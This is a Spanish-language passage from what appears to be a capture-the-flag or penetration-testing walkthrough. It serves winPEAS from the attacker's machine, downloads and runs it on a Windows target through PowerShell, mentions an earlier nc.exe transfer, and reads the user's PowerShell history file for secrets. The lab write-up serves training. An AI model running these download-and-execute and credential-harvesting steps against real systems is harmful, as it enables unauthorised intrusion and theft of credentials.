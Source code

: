     Inicia un servidor HTTP en tu máquina local para transferir el archivo. Utiliza el siguiente comando en tu terminal:

    ```bash
    python3 -m http.server
    ```

    Asegúrate de ejecutar este comando en el directorio donde se encuentra el archivo `winPEASx64.exe`.
3.  **Transferir el Archivo al Sistema Objetivo**

    Cambia a PowerShell en el sistema objetivo, ya que `cmd.exe` no dispone del comando `wget`. Ejecuta el siguiente comando para descargar el archivo:

    ```powershell
    wget http://[Tu_IP_Tun0]:8000/winPEASx64.exe -outfile winPEASx64.exe
    ```

    Reemplaza `[Tu_IP_Tun0]` con la dirección IP de tu máquina local.
4.  **Confirmar la Transferencia**

    Verifica que el archivo `winPEASx64.exe` se haya transferido correctamente al sistema objetivo, tal como hiciste anteriormente con `nc.exe`.
5.  **Ejecutar WinPEAS**

    Una vez transferido, ejecuta WinPEAS en el sistema objetivo con el siguiente comando:

    ```powershell
    powershell
    ./winPEASx64.exe
    ```

Observa el archivo llamado `ConsoleHost_history.txt`. A continuación, se detallan los pasos para navegar hasta este archivo y visualizar su contenido:

1.  **Navegar al Directorio**

    Cambia al directorio donde se encuentra el archivo ejecutando los siguientes comandos en la terminal:

    ```powershell
    cd \
    cd Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
    ```
2.  **Mostrar el Contenido del Archivo**

    Utiliza el siguiente comando para mostrar el contenido del archivo `ConsoleHost_history.txt`:

    ```powershell
    type ConsoleHost_history.txt
    ```
